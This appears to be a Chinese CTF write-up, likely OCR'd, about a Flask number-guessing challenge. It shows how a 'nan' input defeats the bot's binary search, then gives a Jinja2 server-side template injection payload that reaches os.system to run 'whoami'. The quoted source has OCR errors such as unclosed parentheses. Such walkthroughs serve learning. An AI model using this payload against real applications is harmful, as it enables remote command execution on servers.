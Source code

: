 ```python

    if user==None:
        return redirect(url_for("Hello")
    user=user.encode('utf-8')
    name = base64.urlsafe_b64decode(user)
    num = float(request.form['num'])
    if(num<0):
        return "Too Small"
    elif num>1000000000.0:
        return "Too Large"

    else:
        return render_template_string(guessNum(num,name))#直接提醒我们这里存在ssti注入
 
@app.errorhandler(404)
def miss(e):
    return "What are you looking for?!!".getattr(app, '__name__', getattr(app.__class__, '__name__')), 404
 
if __name__ == '__main__':
    f_handler=open('/var/log/app.log', 'w')
    sys.stderr=f_handler
    app.run(debug=True, host='0.0.0.0',port=8888
```



看一下回显很容易得知bot利用二分法来猜数据，如果一定次数内bot没猜出来就是我们赢，正常的数据基本是不行的。

我们看下他得到数字的过程:

```python
num = float(request.form['num'])
    if(num<0):
        return "Too Small"
    elif num>1000000000.0:
        return "Too Large"

```

字符串转数值且小于0大于1000000000.0

阅读python文档https://docs.python.org/3.2/library/stdtypes.html#numeric-types-int-float-complex，我们看到一个这样的浮点数:` float also accepts the strings “nan” and “inf” with an optional prefix “+” or “-” for Not a Number (NaN) and positive or negative infinity. `

且nan<0,nan>1000000000.0都为false,这样他的二分法永远猜不到了

然后修改name进行ssti

```
{{"".__class__.__mro__[2].__subclasses__()[258].__init__.__getattribute__("__globals__")["\\x6f\\x73"].__getattribute__("\\x73ystem")("whoami")}}
```


